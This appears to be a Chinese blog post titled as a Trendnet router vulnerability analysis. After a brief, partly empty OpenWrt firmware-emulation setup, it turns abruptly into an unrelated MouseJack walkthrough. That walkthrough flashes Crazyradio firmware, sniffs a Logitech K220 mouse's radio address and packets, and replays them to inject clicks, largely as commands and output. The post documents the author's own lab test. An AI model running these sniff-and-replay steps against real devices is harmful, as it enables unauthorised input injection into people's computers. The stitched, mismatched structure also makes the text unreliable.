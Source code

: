 ```yaml
---
layout:		post
title:		Trendnet路由器漏洞分析
author:		wooy0ung
tags:		router
category:  	iot
---
```



>环境：  
>Kali Linux 2018.2 amd64  
<!-- more -->


## 0x001 环境搭建

使用dd创建一个文件
```
$ dd if=/dev/zero of=./share.img bs=1M count=350
```

格式化share.img文件
```
$ mkfs.ext4 ./share.img
```

在宿主机上创建一个文件夹，挂载share.img
```
$ mkdir /tmp/share
$ mount -o loop ./share.img /tmp/share
```
这样，在宿主机上把需要传输给虚拟机的文件放到/tmp/share下即可

启动
```

```

寻找挂载的img
```
root@OpenWrt:/# dmesg | grep "350 MiB"
[    0.737791] sd 0:0:0:0: [sda] 716800 512-byte logical blocks: (367 MB/350 MiB)
```

挂载img
```
root@OpenWrt:/# mount -o loop /dev/sda /overlay
[17399.966577] EXT4-fs (sda): couldn't mount as ext3 due to feature incompatibilities
main-loop: WARNING: I/O thread spun for 1000 iterations
[17399.984491] EXT4-fs (sda): couldn't mount as ext2 due to feature incompatibilities
[17400.032076] EXT4-fs (sda): recovery complete
[17400.033842] EXT4-fs (sda): mounted filesystem with ordered data mode. Opts: (null)
```

卸载img
```
root@OpenWrt:/# umount -v /overlay
```

切换根目录
```
root@OpenWrt:/# chroot /overlay/squashfs-root/


BusyBox v1.01 (2011.05.30-12:58+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

@OpenWrt:/# 
```





Crazyradio接入，刚买的设备id为1915:7777
```
$ lsusb
```
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x002.png)

安装依赖
```
$ sudo apt install sdcc binutils python python-pip
$ pip install pyusb
$ pip install platformio
```

刷入crazyradio pa固件
```
$ git clone https://github.com/bitcraze/crazyradio-firmware
$ cd crazyradio-firmware
$ python usbtools/launchBootloader.py	# 有时候会报错，多尝试几次
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x003.png)
显示这样，就是bootloader启动成功

烧录固件
```
$ wget https://github.com/bitcraze/crazyradio-firmware/releases/download/0.53/cradio-pa-0.53.bin
$ python usbtools/nrfbootload.py flash cradio-pa-0.53.bin
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x004.png)
烧录成功，重新插拔设备

这时设备id为1915:0101
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x005.png)

编译MouseJack项目
```
$ git clone --recursive https://github.com/RFStorm/mousejack.git
$ cd mousejack
$ make
$ make install
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x006.png)
刷入成功

重新插拔设备，现在id为1915:0102
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x007.png)

扫描一下附近的无线设备
```
$ cd ./nrf-research-firmware/tools
$ ./nrf24-scanner.py
[2018-07-04 20:33:04.913]  74  10  62:10:91:08:A4  00:C2:00:00:FF:6F:00:00:00:D0
[2018-07-04 20:33:04.926]  74  10  62:10:91:08:A4  00:C2:00:00:00:10:00:00:00:2E
[2018-07-04 20:33:04.934]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:04.960]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:07.318]  14  10  62:10:91:08:A4  00:C2:00:00:FC:3F:00:00:00:03
[2018-07-04 20:33:15.953]  14   0  62:10:91:08:A4  
[2018-07-04 20:33:17.732]  31  10  62:10:91:08:A4  00:C2:00:00:F1:DF:FE:00:00:70
[2018-07-04 20:33:21.906]  70   0  62:10:91:08:A4  
[2018-07-04 20:33:22.301]  74   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:33:32.628]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:32.711]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:42.244]  17  10  62:10:91:08:A4  00:C2:00:00:FF:0F:00:00:00:30
[2018-07-04 20:33:42.256]  17   0  62:10:91:08:A4  
[2018-07-04 20:33:42.299]  17  10  62:10:91:08:A4  00:C2:00:00:FE:0F:00:00:00:31
[2018-07-04 20:33:50.347]  11  10  62:10:91:08:A4  00:C2:00:00:0D:20:FF:00:00:12
[2018-07-04 20:33:50.974]  17  10  62:10:91:08:A4  00:C2:00:00:DA:0F:00:00:00:55
[2018-07-04 20:34:07.962]  14  10  62:10:91:08:A4  00:C2:00:00:01:E0:FF:00:00:5E
[2018-07-04 20:34:07.970]  14  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:07.998]  14  10  62:10:91:08:A4  00:C2:00:00:01:D0:FF:00:00:6E
[2018-07-04 20:34:08.247]  17  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:15.651]   5  10  6B:AD:EE:72:B4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:34:16.054]   8   0  6B:AD:EE:72:B4  
[2018-07-04 20:34:35.945]  32   0  62:10:91:08:A4  
[2018-07-04 20:34:36.244]  35  10  62:10:91:08:A4  00:C2:00:00:04:10:00:00:00:2A
```
通过对无线设备进行操作，可以嗅探出设备的MAC地址信息

我这里有一套存在漏洞的罗技K220键鼠，可以确定鼠标的MAC地址是62:10:91:08:A4

现在有针对性嗅探鼠标，注意每次重新执行脚本都需要插拔设备
```
$ ./nrf24-sniffer.py -a 62:10:91:08:A4
[2018-07-04 20:43:44.083]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.090]   5  10  62:10:91:08:A4  00:C2:00:00:05:D0:FF:00:00:6A
[2018-07-04 20:43:44.098]   5  10  62:10:91:08:A4  00:C2:00:00:02:00:00:00:00:3C
[2018-07-04 20:43:44.105]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.113]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.191]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.195]   5  10  62:10:91:08:A4  00:C2:00:00:FF:2F:00:00:00:10
[2018-07-04 20:43:44.205]   5  10  62:10:91:08:A4  00:C2:00:00:FA:3F:00:00:00:05
[2018-07-04 20:43:44.209]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.223]   5  10  62:10:91:08:A4  00:C2:00:00:FB:5F:00:00:00:E4
[2018-07-04 20:43:44.226]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.234]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.245]   5  10  62:10:91:08:A4  00:C2:00:00:FB:8F:00:00:00:B4
[2018-07-04 20:43:44.258]   5  10  62:10:91:08:A4  00:C2:00:00:F8:7F:00:00:00:C7
[2018-07-04 20:43:44.261]   5  10  62:10:91:08:A4  00:C2:00:00:F9:6F:00:00:00:D6
[2018-07-04 20:43:44.268]   5  10  62:10:91:08:A4  00:C2:00:00:F7:5F:00:00:00:E8
[2018-07-04 20:43:44.279]   5  10  62:10:91:08:A4  00:C2:00:00:F8:6F:00:00:00:D7
[2018-07-04 20:43:44.287]   5  10  62:10:91:08:A4  00:C2:00:00:FB:3F:00:00:00:04
[2018-07-04 20:43:44.295]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.303]   5  10  62:10:91:08:A4  00:C2:00:00:FB:2F:00:00:00:14
[2018-07-04 20:43:44.310]   5  10  62:10:91:08:A4  00:C2:00:00:FF:1F:00:00:00:20
[2018-07-04 20:43:44.318]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.397]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.474]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.551]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.631]   5   5  62:10:91:08:A4  00:40:00:55:6B
```
通过移动或者点击鼠标，就能嗅探到大量数据

点击鼠标右键，持续嗅探
```
# 信道
4 5 7 13 16 17 31 40 43 65 73

# 右键按下
[2018-07-04 23:22:22.865]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:22:22.873]   4  10  62:10:91:08:A4  00:C2:02:00:00:00:00:00:00:3C
[2018-07-04 23:22:22.882]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C

# 右键松开
[2018-07-04 23:23:16.102]  13  10  62:10:91:08:A4  00:C2:00:00:00:00:00:00:00:3E
[2018-07-04 23:23:16.109]  13  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:23:16.185]  13   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 23:23:16.263]  13  10  62:10:91:08:A4  00:4F:00:03:70:00:00:00:00:3E
```

重放攻击以验证猜测
```
$ python replay.py -c 4 5 7 13 16 17 31 40 43 65 73 -a 62:10:91:08:A4 -d 00:4F:00:00:55:00:00:00:00:5C 00:C2:02:00:00:00:00:00:00:3C 00:4F:00:00:55:00:00:00:00:5C
Trying address 62:10:91:08:A4 on channel 13
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 40
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 16
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 43
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
```

成功出现了右键点击现象，重放成功
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x008.png)